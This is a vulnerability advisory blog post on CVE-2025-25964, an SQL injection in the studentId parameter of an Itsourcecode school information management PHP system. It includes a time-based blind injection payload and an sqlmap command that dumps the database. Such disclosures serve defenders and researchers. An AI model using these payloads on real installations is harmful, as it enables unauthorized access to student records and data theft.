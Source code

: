 # CVE-2025-25964: SQL Injection in School Information Management System v1.0

##  Introduction

In today's digital landscape, SQL Injection (SQLi) remains one of the most common and dangerous vulnerabilities found in web applications. This blog post discusses a critical SQL Injection vulnerability (CVE-2025-25964) discovered in the School Information Management System v1.0, developed by Itsourcecode. This vulnerability allows remote attackers to exploit the system, leading to potential sensitive information disclosure.

# Vulnerability Overview

**CVE ID**: CVE-2025-25964

**Vulnerability Type**: SQL Injection (SQLi)

**Affected Product**: Student Information Management System - v1.0

**Affected Component**: studentId parameter in /columbans/admin/modules/student/index.php

**Attack Type**: Remote

**Severity**: High

**Discoverer**: Sakib Shaikh

## Steps to Reproduce

To demonstrate the impact, follow these step-by-step instructions:

1. **Set up the vulnerable application:** Install and configure the School Information Management System v1.0 on a local server.

2. **Log in:** Log in with provided credentials by Itsourecode.

3. **Access the vulnerable endpoint:**

http://localhost/columbans/admin/modules/student/index.php?view=view&studentId=20004207

4. **Inject an SQL payload to test for SQL Injection:**

http://localhost/columbans/admin/modules/student/index.php?view=view&studentId=20004207+AND+(SELECT+2657+FROM+(SELECT(SLEEP(10)))zKnT)

5. **Observe the application response:** If the page takes 10+ seconds to load, the SQL Injection vulnerability is confirmed. This proves that the backend database is executing the injected SQL query.

6. **Use SQLMap for automated exploitation:**

```bash
python sqlmap.py -u "http://localhost/columbans/admin/modules/student/index.php?view=view&studentId=20004207" \
--cookie="PHPSESSID=your_cookie_here" --risk 3 --level 3 --dbs --technique=T --dump --no-cast
```

This command attempts to extract database names, tables, and sensitive information from the system.

## Root Cause Analysis

The issue arises due to improper input sanitization in the studentId parameter of the index.php file. When an attacker modifies the studentId parameter with malicious SQL payloads, the application processes the input without proper validation, leading to SQL injection.


## References

https://itsourcecode.com/free-projects/php-project/st-columban-student-information-management-system/

https://owasp.org/www-community/attacks/SQL_Injection

